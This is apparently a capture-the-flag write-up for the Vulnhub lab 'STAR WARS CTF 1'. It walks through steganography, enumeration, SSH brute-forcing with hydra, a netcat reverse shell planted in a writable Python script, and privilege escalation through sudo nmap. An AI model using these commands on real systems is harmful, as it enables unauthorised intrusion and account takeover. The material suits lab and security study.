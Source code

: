 # This is the write up for the Vulnhub box STAR WARS CTF 1 

Box Ip Address: 10.38.1.114

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:

![](Images/nmap.JPG)

The two open ports are the HTTP port 80 and the SSH port of 22. With port 80 being open, we can assume that this is a web server. Upon navigating to the address `10.38.1.114` we are greeted with this page:

![](Images/websitemain.JPG)

It seems as if there is something hidden on this page. If we look at the inspector code through firefox we see this:

![](Images/websitecode.JPG)

This tips us off that there is, in fact, something hidden here. WWe can use this command to download both the files:

```
wget http://10.38.1.114/images/yoda.jpg
```
and

```
wget http://10.38.1.114/images/yoda.png
```

Since we cannot use the steghide command without a password we turn to online for a `steganography decoder`.

The decoder I used was at this site:

`stylesuxx.github.io/steganography`

Upon uploading the .png image and hitting `decode` we get this output:

![](Images/stegpassword.JPG)

So we can see the password is: `babyYoda123`

Now time to find the username(s)

We can use `gobuster` again but this time also specifying for certain file types such as `php` `js` and `txt`.

If we use this command, these are the results:

```
gobuster dir -u 10.38.1.114 -w /usr/share/wordlists/dirb/common.txt -x php,js,txt
```

![](Images/gobust_filetypes.JPG)

The `users.js` file looks interesting. Upon navigating to that file this is what we see:

![](Images/users_js.JPG)

We can see the two users in this file are `han` and `skywalker`

If we navigate to the `/admin` domain we are greeted with this login page:

![](Images/admin_login.JPG)

After trying both users with the password `babyYoda123` we are unable to login. 

However, during our initial nmap scan we saw that the `SSH` port of `22` was open. Maybe one of those users will work with `SSH`

![](Images/ssh_skyhan.JPG)

We can see from this output that the user `skywalker` did not work with the password, but the user han did. We are now in as the user `han`

```
ls -la
```

Running this command we can see there is a `.secrets` directory, lets see what is in there.

![](Images/ls_la_han.JPG)

If we change directories and look into the files we see a `note.txt` file. 

![](Images/secrets_files.JPG)

If we `cat` the `note.txt` file this is the output:

![](Images/note_txt.JPG) 

The spelling `cewl` is a tip off on our next step. Also we can add Anakin to our list of potential users to pivot to.

`Cewl` is custom wordlist generator and given what we have seen I think we are supposed to use it on the `/r2d2` webpage to generate a list of passwords to brute force with.

Back on our home `Desktop`

If we run this command we can generate a file for a list of password.

```
cewl http://10.38.1.114/r2d2 -w passwords.txt
```

Now that we have a list of passwords we can use this command to brute force our way through logging in using `SSH` with our two users.

```
hydra -l anakin -P ./passwords.txt 10.38.1.114 -t 4 ssh1
```

The results for the user `anakin` didn't return any results but running that same command for the user `skywalker` gives us this result:

![](Images/skywalk_ssh.JPG)

`SSH`ing into the user `skywalker` and viewing the directory we see there is another `.secrets` directory.

The contents of which is another `note.txt` that contains this message:

![](Images/skynote.JPG)

From this we can assume that `Darth` must be another user. Lets see if we can run the Hydra command from earlier in an attempt to brute force the password for `Darth`.

```
hydra -l darth -P ./passwords.txt 10.38.1.114 -t 4 ssh1
```

With no avail to brute force the password, lets see if we can access `Darth`'s home directory:

```
cd /home/Darth/
```
Upon navigating and traversing through the directories we see that there is a writable python script:

![](Images/darthpy.JPG)

The contents of the script currently are irrelevant, however we can change it to use a netcat listener to give us a reverse shell.

```
import os
os.system("nc -e /bin/bash 10.38.1.110 1234")
```
After replacing with the above code and navigating to a new terminal we input the command to start our listener 
```
nc -lnvp 1234
```

We wait a minute and are greeted with this connection, we can use `whoami` to confirm we are infact the user `Darth`:

![](Images/ncdarth.JPG)

In order to get a proper bash shell we can use this command:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![](Images/darthshell.JPG)

We now have our shell, let's see what kind of permissions we have as `Darth`. We can use this command to see if we hold `sudo` privileges for anything: 

```
sudo -l
```

We can see by this output we do in fact have `sudo` privileges for nmap.

![](Images/darthsudo.JPG)

We can see that we are running `nmap` version 7.70

![](Images/nmapvers.JPG)

After some looking in the man pages we see that this version of nmap can run lua scripts. Looking on the internet we find this write up for how to use a lua script with nmap to gain root privileges:

![](Images/nmap770root.JPG)



After running the command and checking `whoami` we can see that we have gained root access.

![](Images/root.JPG)

After `cd` to `/root` and looking at all the files we can see one called `flag.txt`

![](Images/rootfiles.JPG)

When we `cat` the file se are shown this output!!!

![](Images/vader.JPG)

# Congratulations!!!

#### Thanks so much for coming along on this journey with me